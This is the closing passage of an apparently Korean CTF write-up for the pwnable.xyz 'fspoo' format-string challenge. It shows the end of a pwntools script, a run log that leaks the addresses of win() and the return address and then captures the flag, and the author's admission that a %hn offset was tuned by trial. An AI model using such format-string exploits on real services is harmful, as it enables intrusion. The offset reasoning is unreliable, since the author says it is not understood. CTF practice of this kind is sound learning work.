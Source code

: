 ```python
Exit()

r.interactive()
```

```bash
chykor12@ubuntu:~/pwnable.xyz$ python exploit_fspoo.py
[+] Opening connection to svc.pwnable.xyz on port 30010: Done
[*] address of win(): 0x5663b9fd
[*] address of variable 'cmd': 0x5663d040
[*] return address is on 0xff7f9f9c
[*] address of writable memory: 0x5663d100
[*] Switching to interactive mode
FLAG{keen_eye_on_details}[*] Got EOF while reading in interactive
$ 
```

---

의문점 - 처음에는 `"%6$hn"` 전에 `0x10`바이트만큼의 더미가 있으니 `addr_win_low - 0x10`을 넣으면 될 줄 알았는데 그렇게 하니까 주소가 안 맞아서 결과에 맞춰서 `addr_win_low - 0x19`로 바꿨다. 풀긴 했는데 정확히 무슨 원리인지 모르겠다.